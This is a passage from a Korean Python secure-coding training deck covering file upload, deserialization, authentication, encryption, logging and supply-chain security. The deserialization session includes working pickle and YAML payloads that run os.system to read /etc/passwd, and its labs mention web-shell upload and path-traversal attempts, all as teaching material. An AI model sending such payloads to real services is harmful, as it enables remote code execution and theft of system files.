    if ext not in ALLOWED_EXTENSIONS:
        raise ValueError("허용되지 않은 파일 형식")
    
    # 2. 파일명 재생성
    new_filename = f"{uuid.uuid4().hex}.{ext}"
    
    # 3. 경로 검증
    file_path = (UPLOAD_DIR / new_filename).resolve()
    if not str(file_path).startswith(str(UPLOAD_DIR)):
        raise ValueError("잘못된 경로")
    
    file.save(file_path)
    return new_filename
```

---

# 07. 파일 내용 검증

```python
import magic

ALLOWED_MIME_TYPES = {'image/png', 'image/jpeg', 'image/gif', 'application/pdf'}

def validate_file_content(file) -> bool:
    """매직 바이트 검증"""
    content = file.read(2048)
    file.seek(0)
    
    mime_type = magic.from_buffer(content, mime=True)
    return mime_type in ALLOWED_MIME_TYPES
```

> 확장자만으로 불충분 → 파일 내용 검증 필수

---

# 07. 실습: 파일 업로드 보안

```bash
cd /app/labs/07_file_upload
python vulnerable_app.py
```

### 테스트
1. 웹쉘 업로드 시도
2. 확장자 우회 시도
3. 경로 조작 시도
4. 보안 코드 적용

---

# 07. 정리 - 핵심 포인트

### 파일 업로드
1. **확장자 화이트리스트 검증**
2. **파일 내용(매직 바이트) 검증**
3. **파일명 UUID로 재생성**
4. **업로드 디렉토리 실행 권한 제거**

### 경로 조작 방어
1. **경로 정규화** (resolve())
2. **기준 디렉토리 검증** (startswith)
3. **secure_filename() 사용**

---

# 07. 확인 문제

1. 확장자 검증만으로 충분하지 않은 이유는?

2. Path Traversal에서 `../`의 역할은?

3. 파일명을 UUID로 재생성하는 이유는?

4. 업로드 디렉토리 실행 권한 제거 이유는?

---

<!-- _class: section-break lead -->

# 08차시
## 직렬화/역직렬화 취약점
### 60분

---

# 08. 학습 목표

1. 직렬화/역직렬화 취약점의 발생 원리와 위험성을 설명할 수 있다.

2. Python pickle 모듈의 원격 코드 실행 취약점을 이해할 수 있다.

3. 안전하지 않은 역직렬화 취약점을 진단하고 식별할 수 있다.

4. 안전한 데이터 직렬화 대안을 적용할 수 있다.

---

# 08. 이번 차시 구성

| 순서 | 내용 | 시간 |
|:----:|------|:----:|
| 1 | 직렬화/역직렬화 개요 | 10분 |
| 2 | Pickle 취약점 분석 | 15분 |
| 3 | 안전한 직렬화 방법 | 15분 |
| 4 | 실습: 역직렬화 취약점 | 15분 |
| 5 | 정리 및 Q&A | 5분 |

---

# 08. Pickle 취약점

```python
import pickle
import os

class Exploit:
    def __reduce__(self):
        return (os.system, ('cat /etc/passwd',))

# 악성 데이터 생성
malicious_data = pickle.dumps(Exploit())

# 역직렬화 → RCE 발생!
pickle.loads(malicious_data)
```

> **경고:** 신뢰할 수 없는 데이터에 pickle 절대 사용 금지

---

# 08. YAML 취약점

```python
import yaml

# 위험: yaml.load()
yaml_data = """
!!python/object/apply:os.system
args: ['cat /etc/passwd']
"""
yaml.load(yaml_data, Loader=yaml.Loader)  # RCE!

# 안전: yaml.safe_load()
yaml.safe_load(yaml_data)  # 에러 발생
```

---

# 08. 안전한 대안 - JSON

```python
import json

# JSON은 객체 생성 불가 → 안전
data = {"user_id": 123, "role": "admin"}
json_str = json.dumps(data)
parsed = json.loads(json_str)
```

### 서명된 직렬화

```python
from itsdangerous import URLSafeTimedSerializer

serializer = URLSafeTimedSerializer('secret-key')
token = serializer.dumps(data)  # 직렬화 + 서명
original = serializer.loads(token, max_age=3600)  # 검증 + 역직렬화
```

---

# 08. Bandit 진단

```bash
bandit -r ./src

# 결과
>> Issue: [B301:blacklist] Pickle library is unsafe.
>> Issue: [B506:yaml_load] Use of unsafe yaml load.
```

---

# 08. 실습: 역직렬화 취약점

```bash
cd /app/labs/08_deserialization
python vulnerable_app.py
```

### 실습 목표
1. Pickle RCE 확인
2. 악성 페이로드 생성
3. JSON으로 수정
4. 서명된 직렬화 구현

---

# 08. 정리 - 핵심 포인트

1. **pickle.loads() 신뢰할 수 없는 데이터에 사용 금지**
2. **yaml.safe_load() 사용** (yaml.load() 금지)
3. **JSON 사용 권장**
4. **서명된 직렬화** (itsdangerous)
5. **Bandit으로 검사**

---

# 08. 확인 문제

1. pickle의 __reduce__ 메서드가 위험한 이유는?

2. yaml.load()와 yaml.safe_load() 차이는?

3. JSON이 pickle보다 안전한 이유는?

4. 서명된 직렬화의 작동 원리는?
---

<!-- _class: section-break lead -->

# 09차시
## 인증 및 인가
### 60분

---

# 09. 학습 목표

1. 인증과 인가의 개념 차이와 보안 요구사항을 설명할 수 있다.

2. 안전한 비밀번호 저장 기법(해싱, 솔팅)을 이해하고 구현할 수 있다.

3. 인증 흐름 설계와 다중 인증(MFA) 구현 방법을 이해할 수 있다.

4. JWT 토큰을 이용한 안전한 인가 정책을 구현할 수 있다.

---

# 09. 이번 차시 구성

| 순서 | 내용 | 시간 |
|:----:|------|:----:|
| 1 | 인증과 인가 개념 | 10분 |
| 2 | 비밀번호 보안 | 15분 |
| 3 | JWT 기반 인증 | 15분 |
| 4 | 실습: 인증 시스템 구현 | 15분 |
| 5 | 정리 및 Q&A | 5분 |

---

# 09. 인증 vs 인가

| 구분 | 인증 (Authentication) | 인가 (Authorization) |
|------|----------------------|---------------------|
| 질문 | "당신은 누구인가?" | "무엇을 할 수 있는가?" |
| 대상 | 신원 (Identity) | 권한 (Permission) |
| 시점 | 먼저 수행 | 인증 후 수행 |
| 실패 | 401 Unauthorized | 403 Forbidden |

---

# 09. 비밀번호 저장 - 잘못된 방법

```python
# 절대 하면 안 되는 방법들
password = user_input  # 평문 저장
hashed = hashlib.md5(password).hexdigest()  # MD5
hashed = hashlib.sha256(password).hexdigest()  # SHA256

# 문제점:
# - 레인보우 테이블 공격 가능
# - 솔트 없음
# - 빠른 해시 → GPU 크래킹 취약
```

---

# 09. 비밀번호 저장 - 올바른 방법

```python
import bcrypt
from argon2 import PasswordHasher

# bcrypt
def hash_password(password: str) -> str:
    salt = bcrypt.gensalt(rounds=12)
    return bcrypt.hashpw(password.encode(), salt).decode()

def verify_password(password: str, hashed: str) -> bool:
    return bcrypt.checkpw(password.encode(), hashed.encode())

# Argon2 (권장)
ph = PasswordHasher()
hashed = ph.hash("password123")
ph.verify(hashed, "password123")
```

---

# 09. 브루트포스 방어

```python
from flask_limiter import Limiter

limiter = Limiter(app, key_func=get_remote_address)

@app.route('/login', methods=['POST'])
@limiter.limit("5 per minute")  # 분당 5회 제한
def login():
    # 로그인 처리
    pass
```

### 추가 방어
- 계정 잠금 정책
- CAPTCHA
- 타이밍 공격 방지 (일정한 응답 시간)

---

# 09. JWT 토큰 구현

```python
import jwt
from datetime import datetime, timedelta

SECRET_KEY = 'your-secret-key'

def create_token(user_id: int, role: str) -> str:
    payload = {
        'user_id': user_id,
        'role': role,
        'exp': datetime.utcnow() + timedelta(hours=1),
    }
    return jwt.encode(payload, SECRET_KEY, algorithm='HS256')

def verify_token(token: str) -> dict:
    try:
        return jwt.decode(token, SECRET_KEY, algorithms=['HS256'])
    except jwt.ExpiredSignatureError:
        raise ValueError("토큰 만료")
    except jwt.InvalidTokenError:
        raise ValueError("유효하지 않은 토큰")
```

---

# 09. 역할 기반 접근 제어 (RBAC)

```python
from functools import wraps
from flask import g, abort

def require_role(*allowed_roles):
    def decorator(f):
        @wraps(f)
        def decorated(*args, **kwargs):
            if not g.user:
                abort(401)
            if g.user.get('role') not in allowed_roles:
                abort(403)
            return f(*args, **kwargs)
        return decorated
    return decorator

@app.route('/admin/users')
@require_role('admin', 'superadmin')
def admin_users():
    return "관리자 페이지"
```

---

# 09. 실습: JWT 인증 시스템

```bash
cd /app/labs/09_auth
python app.py
```

### 실습 목표
1. bcrypt 비밀번호 해시
2. JWT 토큰 발급/검증
3. 로그인 시도 제한
4. RBAC 구현

---

# 09. 정리 - 핵심 포인트

### 인증
1. **bcrypt/argon2로 해시**
2. **비밀번호 정책 적용**
3. **브루트포스 방어**

### 인가
1. **JWT 안전 사용**
2. **RBAC 적용**
3. **최소 권한 원칙**

---

# 09. 확인 문제

1. bcrypt가 MD5보다 안전한 이유는?

2. JWT의 세 가지 구성 요소는?

3. 브루트포스 방어 방법 두 가지는?

4. 401과 403 응답의 차이는?

---

<!-- _class: section-break lead -->

# 10차시
## 중요정보 처리 및 암호화
### 60분

---

# 10. 학습 목표

1. 중요정보의 식별 기준과 처리 방식을 설명할 수 있다.

2. 데이터 암호화의 기본 원리(대칭키, 비대칭키)를 이해할 수 있다.

3. 키와 비밀값의 안전한 보관 방법을 적용할 수 있다.

4. Python Cryptography 패키지를 활용한 암호화를 구현할 수 있다.

---

# 10. 이번 차시 구성

| 순서 | 내용 | 시간 |
|:----:|------|:----:|
| 1 | 중요정보 식별 | 10분 |
| 2 | 암호화 기법 | 15분 |
| 3 | 키 관리 | 15분 |
| 4 | 실습: 암호화 구현 | 15분 |
| 5 | 정리 및 Q&A | 5분 |

---

# 10. 암호화 유형 비교

| 구분 | 대칭키 | 비대칭키 |
|------|--------|----------|
| 키 | 동일 키 | 공개키/개인키 |
| 속도 | 빠름 | 느림 |
| 용도 | 데이터 암호화 | 키 교환, 서명 |
| 알고리즘 | AES, ChaCha20 | RSA, ECC |

---

# 10. AES 암호화

```python
from cryptography.fernet import Fernet

# 키 생성
key = Fernet.generate_key()

# 암호화
cipher = Fernet(key)
plaintext = "민감한 정보".encode()
encrypted = cipher.encrypt(plaintext)

# 복호화
decrypted = cipher.decrypt(encrypted)
print(decrypted.decode())
```

---

# 10. 키 관리 - 환경변수

```python
# 하드코딩 금지!
SECRET_KEY = "my-secret-key"  # 위험!

# 환경변수 사용 (권장)
import os
SECRET_KEY = os.environ.get('SECRET_KEY')

# python-dotenv
from dotenv import load_dotenv
load_dotenv()
SECRET_KEY = os.getenv('SECRET_KEY')
```

### .gitignore
```
.env
.env.local
```

---

# 10. 데이터 마스킹

```python
def mask_credit_card(card: str) -> str:
    """1234-5678-9012-3456 → 1234-****-****-3456"""
    clean = card.replace('-', '')
    return f"{clean[:4]}-****-****-{clean[-4:]}"

def mask_email(email: str) -> str:
    """john@example.com → j***n@example.com"""
    local, domain = email.split('@')
    masked = local[0] + '***' + local[-1] if len(local) > 2 else local[0] + '***'
    return f"{masked}@{domain}"
```

---

# 10. 실습: 데이터 암호화

```bash
cd /app/labs/10_encryption
python app.py
```

### 실습 목표
1. Fernet 암호화/복호화
2. 환경변수 키 관리
3. DB 필드 암호화
4. 데이터 마스킹

---

# 10. 정리 - 핵심 포인트

1. **AES-256 등 강력한 알고리즘**
2. **키는 환경변수/시크릿 매니저**
3. **하드코딩 절대 금지**
4. **민감정보 저장 전 암호화**
5. **로그/화면에 마스킹**
6. **전송 시 TLS 사용**

---

# 10. 확인 문제

1. 대칭키와 비대칭키 암호화 차이는?

2. 키를 하드코딩하면 안 되는 이유는?

3. Fernet 암호화의 특징은?

4. 마스킹과 암호화의 차이는?

---

<!-- _class: section-break lead -->

# 11차시
## 에러처리 및 로깅 보안
### 60분

---

# 11. 학습 목표

1. 에러 메시지를 통한 정보 노출 위험성을 설명할 수 있다.

2. 안전한 예외 처리와 에러 메시지 설계 방법을 이해할 수 있다.

3. 보안 로깅 정책과 민감정보 마스킹 기법을 적용할 수 있다.

4. 로그 관리 및 모니터링 체계를 구현할 수 있다.

---

# 11. 이번 차시 구성

| 순서 | 내용 | 시간 |
|:----:|------|:----:|
| 1 | 정보 노출 위험 | 10분 |
| 2 | 안전한 에러 처리 | 15분 |
| 3 | 보안 로깅 | 15분 |
| 4 | 실습: 로깅 시스템 | 15분 |
| 5 | 정리 및 Q&A | 5분 |

---

# 11. 정보 노출 위험

```python
# 위험: 상세 에러 노출
try:
    cursor.execute(query)
except Exception as e:
    return f"Error: {str(e)}"
    # "Table 'myapp.users' doesn't exist" → DB 구조 노출!

# 안전: 일반 메시지
except Exception as e:
    logger.error(f"DB 오류: {e}")  # 내부 로깅
    return "요청 처리 실패"  # 사용자 응답
```

---

# 11. Flask 에러 핸들러

```python
app.config['DEBUG'] = False  # 운영 환경

@app.errorhandler(404)
def not_found(error):
    return jsonify({"error": "리소스를 찾을 수 없습니다"}), 404

@app.errorhandler(500)
def internal_error(error):
    app.logger.error(f"서버 오류: {error}")
    return jsonify({"error": "서버 오류가 발생했습니다"}), 500

@app.errorhandler(Exception)
def handle_exception(e):
    app.logger.exception("예상치 못한 오류")
    return jsonify({"error": "오류가 발생했습니다"}), 500
```

---

# 11. 민감정보 마스킹 필터

```python
import logging
import re

class SensitiveDataFilter(logging.Filter):
    PATTERNS = [
        (r'\d{4}[-\s]?\d{4}[-\s]?\d{4}[-\s]?\d{4}', '****-****-****-****'),
        (r'password\s*[:=]\s*\S+', 'password=***'),
    ]
    
    def filter(self, record):
        msg = record.getMessage()
        for pattern, replacement in self.PATTERNS:
            msg = re.sub(pattern, replacement, msg, flags=re.I)
        record.msg = msg
        record.args = ()
        return True

logger.addFilter(SensitiveDataFilter())
```

---

# 11. 보안 이벤트 로깅

```python
def log_security_event(event_type: str, details: dict):
    event = {
        'timestamp': datetime.utcnow().isoformat(),
        'event_type': event_type,
        'user_id': g.user_id,
        'ip': request.remote_addr,
        **details
    }
    security_logger.info(f"SECURITY: {event}")

# 사용
log_security_event('LOGIN_FAILED', {'username': username})
log_security_event('PERMISSION_DENIED', {'resource': '/admin'})
```

---

# 11. 실습: 보안 로깅

```bash
cd /app/labs/11_logging
python app.py
```

### 실습 목표
1. 에러 핸들러 구현
2. 민감정보 마스킹
3. 보안 이벤트 로깅
4. 로그 로테이션

---

# 11. 정리 - 핵심 포인트

### 에러 처리
1. **상세 에러 노출 금지**
2. **내부 로깅과 응답 분리**
3. **DEBUG 모드 비활성화**

### 로깅
1. **민감정보 마스킹**
2. **보안 이벤트 별도 기록**
3. **로그 접근 권한 제한**

---

# 11. 확인 문제

1. 에러 메시지로 노출될 수 있는 정보 3가지는?

2. 로그에 포함하면 안 되는 정보 3가지는?

3. 로그 로테이션이 필요한 이유는?

4. 보안 이벤트 로깅에 포함할 정보는?

---

<!-- _class: section-break lead -->

# 12차시
## 종속성 및 패키지 공급망 보안
### 60분

---

# 12. 학습 목표

1. 소프트웨어 공급망 공격의 유형과 위험성을 설명할 수 있다.

2. pip 패키지 관리와 취약 패키지 탐지 및 대응 방법을 이해할 수 있다.

3. 프로젝트별 버전 격리와 의존성 관리 기법을 적용할 수 있다.

4. SBOM 생성 및 Dependency-Check 도구를 활용할 수 있다.

---

# 12. 이번 차시 구성

| 순서 | 내용 | 시간 |
|:----:|------|:----:|
| 1 | 공급망 공격 개요 | 10분 |
| 2 | 취약점 탐지 도구 | 15분 |
| 3 | 의존성 관리 | 15분 |
| 4 | 실습: 보안 점검 자동화 | 15분 |
| 5 | 정리 및 Q&A | 5분 |

---

# 12. 공급망 공격 유형

| 유형 | 설명 | 사례 |
|------|------|------|
| 타이포스쿼팅 | 유사 이름 패키지 | reqeusts |
| 의존성 혼동 | 내부명 탈취 | dependency confusion |
| 계정 탈취 | 메인테이너 해킹 | ua-parser-js |
| 빌드 침해 | CI/CD 공격 | SolarWinds |

---

# 12. Safety - 취약점 스캔

```bash
# 설치
pip install safety

# 검사
safety check -r requirements.txt
safety check --full-report

# JSON 출력
safety check --output json > safety-report.json
```

---

# 12. pip-audit

```bash
# 설치
pip install pip-audit

# 검사
pip-audit
pip-audit -r requirements.txt

# 자동 수정
pip-audit --fix
```

---

# 12. Bandit - 코드 분석

```bash
# 설치
pip install bandit

# 검사
bandit -r ./src
bandit -r ./src -f html -o report.html

# 특정 검사 제외
bandit -r ./src --skip B101
```

---

# 12. 의존성 버전 고정

```text
# requirements.txt
flask==3.0.3
django==5.1.3
requests==2.32.3

# 해시 검증 (더 안전)
flask==3.0.3 \
    --hash=sha256:xxx...
```

### pip-tools
```bash
pip install pip-tools
pip-compile requirements.in
pip-sync requirements.txt
```

---

# 12. CI/CD 보안 통합

```yaml
# .github/workflows/security.yml
name: Security Scan
on: [push, pull_request]

jobs:
  security:
    runs-on: ubuntu-latest
    steps:
      - uses: actions/checkout@v4
      - name: Safety Check
        run: |
          pip install safety
          safety check -r requirements.txt
      - name: Bandit Check
        run: |
          pip install bandit
          bandit -r ./src
```

---

# 12. SBOM 생성

```bash
# CycloneDX
pip install cyclonedx-bom
cyclonedx-py environment -o sbom.json

# Syft
syft . -o spdx-json > sbom.spdx.json
```

> SBOM: 소프트웨어 구성 요소 목록 (규제 요구사항)

---

# 12. 실습: 보안 점검 자동화

```bash
cd /app/labs/12_supply_chain
cat requirements.txt

# 취약점 검사
safety check -r requirements.txt
pip-audit -r requirements.txt
bandit -r ./src
```

---

# 12. 정리 - 핵심 포인트

1. **의존성 버전 고정**
2. **정기적 취약점 스캔** (Safety, pip-audit)
3. **정적 코드 분석** (Bandit)
4. **SBOM 생성**
5. **CI/CD 보안 검사 통합**
6. **Dependabot 활성화**

---

# 12. 확인 문제

1. 타이포스쿼팅 공격이란?

2. Safety와 Bandit의 차이는?

3. SBOM이 필요한 이유는?

4. 의존성 버전 고정 방법은?

---

<!-- _class: section-break lead -->

# 교육과정 요약

---

# 핵심 보안 원칙 7가지

| 번호 | 원칙 | 핵심 |
|:----:|------|------|
| 1 | 입력값 검증 | 화이트리스트, 서버 검증 |
| 2 | 출력 인코딩 | 컨텍스트별 인코딩 |
| 3 | 인증/인가 | bcrypt, JWT, RBAC |
| 4 | 세션 관리 | HTTPOnly, Secure, SameSite |
| 5 | 암호화 | AES-256, 환경변수 키 |
| 6 | 에러 처리 | 정보 노출 방지 |
| 7 | 의존성 관리 | 버전 고정, 정기 스캔 |

---

# 보안 도구 요약

| 단계 | 도구 | 용도 |
|------|------|------|
| 코딩 | Bandit | Python 정적 분석 |
| 코딩 | Pydantic | 입력 검증 |
| 빌드 | Safety | 의존성 취약점 |
| 빌드 | pip-audit | PyPI 취약점 |
| 테스트 | pytest | 보안 테스트 |
| 배포 | OWASP ZAP | 동적 분석 |

---

# 실습 환경 명령어

```bash
# Docker 시작
docker-compose up -d --build

# 컨테이너 접속
docker exec -it python-secure-coding bash

# 보안 도구 실행
bandit -r ./src
safety check -r requirements.txt
pip-audit

# 실습 디렉토리
cd /app/labs/[01-12]_*/
```

---

<!-- _class: title lead -->

# 감사합니다

### Python 시큐어코딩 교육과정

---

# 참고 자료

| 리소스 | URL |
|--------|-----|
| OWASP Top 10 | https://owasp.org/Top10/ |
| Python Security | https://python-security.readthedocs.io/ |
| Bandit | https://bandit.readthedocs.io/ |
| Flask Security | https://flask.palletsprojects.com/security/ |
| Django Security | https://docs.djangoproject.com/topics/security/ |

### 슬라이드 변환

```bash
marp Python_시큐어코딩_slides.md -o slides.pdf
marp Python_시큐어코딩_slides.md -o slides.pptx
```
